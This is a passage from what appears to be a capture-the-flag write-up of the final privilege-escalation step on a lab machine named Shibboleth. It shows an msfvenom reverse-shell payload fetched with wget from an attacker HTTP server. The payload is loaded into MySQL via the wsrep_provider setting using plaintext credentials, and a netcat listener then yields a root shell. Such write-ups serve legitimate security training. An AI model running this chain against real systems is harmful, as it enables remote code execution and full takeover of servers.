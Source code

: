 
### Final Step 

- Create the reverse shell payload
 - msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o root.so
 
- I've used python http server and wget to download the payload
  - python3 -m http.server 80 [ Attacker ]
  - wget http://<your_ip>/root.so [ Victim ]
- Setup a nc listener 

 ```bash

 # Login with creds we got earlier 
ipmi-svc@shibboleth:~$ mysql -u zabbix -pbloooarskybluh -h localhost -e 'SET GLOBAL wsrep_provider="/tmp/root.so";'
<host -e 'SET GLOBAL wsrep_provider="/tmp/root.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query

 ```
 ## Rooted the machine
 
 ```bash
 
 └─$ nc -nvlp 4433                    
listening on [any] 4433 ...
connect to [10.10.14.47] from (UNKNOWN) [10.129.99.153] 49958

python3 -c "import pty;pty.spawn('/bin/bash')"
root@shibboleth:/var/lib/mysql#id
uid=0(root) gid=0(root) groups=0(root) 

root@shibboleth:/var/lib/mysql# cat /root/root.txt
<--SNIP-->

```
 
#### Box pwned
 
 ![image](https://user-images.githubusercontent.com/56447720/141778619-c4e8c92d-47cc-46b7-b212-c7c2bf4785e5.png)

 
 
 


